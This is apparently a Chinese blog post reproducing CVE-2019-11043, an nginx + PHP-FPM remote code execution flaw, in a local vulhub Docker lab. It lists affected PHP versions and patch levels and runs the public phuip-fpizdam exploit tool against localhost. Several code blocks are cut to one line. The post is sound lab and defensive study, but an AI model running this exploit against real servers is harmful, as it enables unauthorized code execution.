

CVE
2021-02-10
2021-02-10
# CVE-2019-11043 漏洞复现
# 0x01 漏洞简介
nginx + php-fpm 配置不当，当 nginx 配置文件中有 fastcgi_split_path_info ，却没有 if(!-f $document_root$fastcgi_script_name){return 404;} 的时候就会导致远程代码执行。
向 Nginx + PHP-FPM 的服务器 URL 发送 %0a 时，服务器返回异常。
该漏洞需要在 nginx.conf 中进行特定配置才能触发。具体配置如下：
1 | location ~ [^/]\.php(/|$) { |
攻击者可以使用换行符（％0a）来破坏 fastcgi_split_path_info 指令中的 Regexp。 Regexp 被损坏导致 PATH_INFO 为空，从而触发该漏洞。
影响版本：
- PHP 7.0 版本
- PHP 7.1 版本
- PHP 7.2 版本
- PHP 7.3 版本
修复建议：
- PHP 7.1.X 更新至 7.1.33
- PHP 7.2.X 更新至 7.2.24
- PHP 7.3.X 更新至 7.3.11
# 0x02 环境搭建
系统：kali
# 安装 docker、golang 环境
1 | sudo apt-get install docker docker-compose |
# 搭建环境
1 | git clone https://github.com/vulhub/vulhub.git |
查看 docker 环境：

访问 8080 端口，成功如下
# 0x03 漏洞利用
# 安装漏洞利用工具
1 | git clone https://github.com/neex/phuip-fpizdam.git |
默认使用的是 proxy.golang.org，在国内无法访问，所以换了一个国内能访问的代理地址：https://goproxy.cn
# 工具攻击
1 | ./phuip-fpizdam http://127.0.0.1:8080/index.php |

成功利用，参数名为 a
# 0x04 参考链接：
https://blog.csdn.net/weixin_43606134/article/details/107646467
https://blog.csdn.net/qq_43342566/article/details/102733144
http://blog.leanote.com/post/snowming/9da184ef24bd
https://blog.csdn.net/weixin_40412037/article/details/111225967